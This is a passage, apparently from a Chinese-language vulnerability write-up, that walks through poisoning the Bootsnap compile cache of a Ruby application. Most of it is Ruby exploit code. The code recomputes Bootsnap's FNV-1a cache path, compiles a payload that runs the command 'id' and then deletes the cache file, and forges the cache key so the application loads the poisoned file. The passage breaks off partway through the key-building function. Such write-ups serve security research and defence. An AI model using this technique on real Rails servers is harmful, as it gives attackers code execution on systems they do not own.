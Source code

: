 这样，我们就可以准备恶意缓存文件了。首先，我们需要通过复制 Bootsnap 的哈希机制来计算缓存文件的正确位置 [3]。  
  
```
def fnv1a_64(data)
  # FNV-1a 64-bit hash function for a given string
  h = 0xcbf29ce484222325
  data.each_byte do |byte|
    h ^= byte
    h = (h * 0x100000001b3) & 0xFFFFFFFFFFFFFFFF  # Keep it within 64 bits
  end
  h
end
 
def bs_cache_path(cachedir, path)
  # Generate cache path based on FNV-1a hash
  hash_value = fnv1a_64(path)
  first_byte = (hash_value >> (64 - 8)) & 0xFF
  remainder = hash_value & 0x00FFFFFFFFFFFFFF
  File.join(cachedir, "%02x" % first_byte, "%014x" % remainder)
end
 
cachedir = "tmp/cache/bootsnap/compile-cache-iseq"
cache_path = bs_cache_path(cachedir, ruby_info[:require_target])
puts "Cache path: #{cache_path}"
```  
  
  
```
```  
  
之后，我们通过将缓存键与要执行的 Ruby 代码的编译版本连接起来来准备缓存文件的内容：  
  
```
def generate_evil_cache(cache_path, ruby_info)
  require_target = ruby_info[:require_target]
  payload = <<~PAYLOAD
    `id > >&2`
    `rm -f #{cache_path}`
    load("#{require_target}")
  PAYLOAD
 
  compiled_binary = RubyVM::InstructionSequence.compile(payload).to_binary
 
  cache_key = generate_cache_key(ruby_info, compiled_binary.size)
 
  malicious_path = '/tmp/output_file.bin'
  write_binary_file(malicious_path, cache_key, compiled_binary)
 
  puts "File written to #{malicious_path}"
  malicious_path
end
 
def hash_32(data)
  fnv1a_64(data) >> 32
end
 
def generate_cache_key(ruby_info, data_size)
  {
    version:         6, # for v1.18.4. Depends on bootsnap version
    ruby_platform:   hash_32("x86_64-linux"),
    compile_option:  Zlib.crc32(ruby_info[:compile_option]),
    ruby_revision:   hash_32(ruby_info[:revision]),
    size:            ruby_info[:size],
    mtime:           ruby_info[:mtime],
    data_size:       data_size,
    digest:          31337,
    digest_set:      1,
```